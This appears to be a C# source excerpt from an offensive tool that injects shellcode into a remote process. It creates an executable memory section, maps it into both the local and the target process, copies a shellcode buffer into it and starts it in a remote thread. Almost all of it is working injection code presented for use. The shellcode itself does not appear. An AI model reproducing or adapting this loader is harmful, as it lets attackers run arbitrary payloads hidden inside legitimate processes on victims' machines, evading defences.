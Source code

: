 ```cs 

      // Create RWX memory section for the shellcode
      IntPtr hSection = new IntPtr();
      if (NtCreateSection(ref hSection, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, IntPtr.Zero, ref uBufLength, PAGE_EXECUTE_READWRITE, SEC_COMMIT, IntPtr.Zero) != 0) {
        Console.WriteLine("[-] Falied to create a section for the shellcode");
        return;
      }

      // Map the view of created section into the LOCAL process's virtual address space (as R-W)
      IntPtr baseAddressL = new IntPtr();
      ulong sectionOffsetL = new ulong();
      if (NtMapViewOfSection(hSection, hLocalProcess, ref baseAddressL, UIntPtr.Zero, UIntPtr.Zero, out sectionOffsetL, out uBufLength, 2, 0, PAGE_READ_WRITE) != 0) {
        Console.WriteLine("[-] Falied to map the view into local process's space");
        return;
      }

      // Map the view of (the same) created section into the REMOTE process's virtual address space (as R-E)
      IntPtr baseAddressR = new IntPtr();
      ulong sectionOffsetR = new ulong();
      if (NtMapViewOfSection(hSection, hRemoteProcess, ref baseAddressR, UIntPtr.Zero, UIntPtr.Zero, out sectionOffsetR, out uBufLength, 2, 0, PAGE_READ_EXECUTE) != 0) {
        Console.WriteLine("[-] Falied to map the view into remote process's space");
        return;
      }

      // Copy the shellcode into the locally mapped view which will be reflected on the remotely mapped view
      Marshal.Copy(buf, 0, baseAddressL, bufLength);

      // BEGIN DEBUG (check if the shellcode was copied correctly)
      byte[] remoteMemory = new byte[bufLength];
      IntPtr bytesRead = new IntPtr();
      ReadProcessMemory(hRemoteProcess, baseAddressR, remoteMemory, remoteMemory.Length, out bytesRead);
      if (!CompareByteArray(buf, remoteMemory)) {
        Console.WriteLine("[-] DEBUG: Shellcode bytes read from remotely mapped view do not match with local buf");
        return;
      }
      // END DEBUG

      // Execute the shellcode in a remote thread (also can be done with CreateRemoteThread)
      //CreateRemoteThread(hRemoteProcess, IntPtr.Zero, 0, baseAddressR, IntPtr.Zero, 0, IntPtr.Zero)
      IntPtr threadHandle = new IntPtr();
      if (RtlCreateUserThread(hRemoteProcess, IntPtr.Zero, false, 0, IntPtr.Zero, IntPtr.Zero, baseAddressR, IntPtr.Zero, ref threadHandle, IntPtr.Zero) != IntPtr.Zero) {
        Console.WriteLine("[-] Failed to create a remote thread");
        return;
      }

      Console.WriteLine($"[+] Successfully injected shellcode into remote process ({processName}, {processId})");

      // Clean up
      NtUnmapViewOfSection(hLocalProcess, baseAddressL);
      NtClose(hSection);
    }
  }}    
	
```